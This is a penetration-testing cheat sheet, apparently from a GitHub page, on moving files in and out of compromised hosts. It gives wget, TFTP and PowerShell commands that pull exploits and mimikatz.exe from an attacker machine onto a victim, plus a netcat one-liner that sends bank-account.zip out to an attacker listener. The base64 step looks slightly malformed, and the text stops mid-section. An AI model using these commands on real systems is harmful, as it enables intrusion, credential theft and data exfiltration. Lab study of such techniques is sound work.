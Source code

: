 ## File Transfers
----------------

wget Transfer

How to retrieve file(s) from host (inside a reverse shell)

```bash
# Place file you want transferred in /var/www/html/
service apache2 start
# Run on the remote server
# wget http://10.10.10.10/pspy64 # <- for single file
# wget -r http://10.10.10.10/pspy64/ <- for folder
```
	
TFTP Transfer

(How to transfer from Kali to Windows)

Using MSF.

Start MSF before these steps:

Inside MSF

1. `use auxiliary/server/tftp`
2. `set TFTPROOT /usr/share/mimikatz/Win32/`
3. `run`

Inside a terminal

4. `tftp -i 10.10.10.10 GET mimikatz.exe`

NetCat (Windows to Kali)

1. Windows: `nc -nv 10.11.0.61 4444 < bank-account.zip`

2. Linux: `nc -nlvp 4444 > bank-account.zip`
	
PowerShell

```ps
Invoke-WebRequest -Uri http://127.0.0.1/exploit.py -OutFile C:\Users\Victim\exploit.py
```
	
Without an interactive powershell session:
```ps
# Create wget.ps1
$client = New-Object System.Net.WebClient
$path = "C:\path\to\save\file.txt"
$client.DownloadFile($url, $path)
```
Base64 (Linux -> Linux)

Local Host:
1. `$(echo "cat /path/to/exploit.py | base64") > encoded.b64`
2. Transfer `encoded.b64` to the remote server via `nc` or otherwise.

Remote Server - Linux:
